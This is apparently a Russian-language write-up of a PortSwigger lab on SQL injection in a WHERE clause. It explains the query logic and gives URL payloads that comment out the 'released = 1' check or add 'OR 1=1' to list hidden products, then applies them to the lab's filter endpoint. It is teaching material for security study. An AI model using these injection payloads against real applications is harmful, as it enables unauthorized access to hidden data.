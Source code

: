 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Theory

<h3>Игнорирование части запроса</h3>

Данный запрос заставляет приложение выполнить SQL-запрос для получения соответсвующих продуктах из базы данных:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

SQL-запрос просит базу данных вернуть следующее:

* Все детали (*)
* Из таблицы products
* Где категория Gifts
* Которые выпущены (released 1)

Ограничение **released = 1** используется, чтобы скрыть невыпущенные продукты.

Так как приложение не защищено, злоумышленник может использовать следующий эксплоит:
```
https://site/products?category=Gifts'--
```

SQL-запрос будет выглядеть следующим образом:
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Ключевым моментом здесь является двойное тире **"--"**, которое в SQL означает комментарий. Это значит, что остальная часть запроса после "--" игнорируется.

<br></br>

<h3>Показывать все продукты, незивисимо от категории</h3>

Для того, чтобы отобразить все продукты независимо от категории можно использовать следующий эксплоит:
```
https://site/products?category=Gifts'+OR+1=1--
```

Запрос будет выгляденть следующим образом:
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1 -- ' AND released = 1
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/1.png)

Выберем пункт Accessories.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/2.png)

Модифицируем запрос, чтобы получить все продукты:
```
/filter?category=Accessories'+or+1=1--
```

Отправляем запрос и получает ответ от сайта

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/3.png)


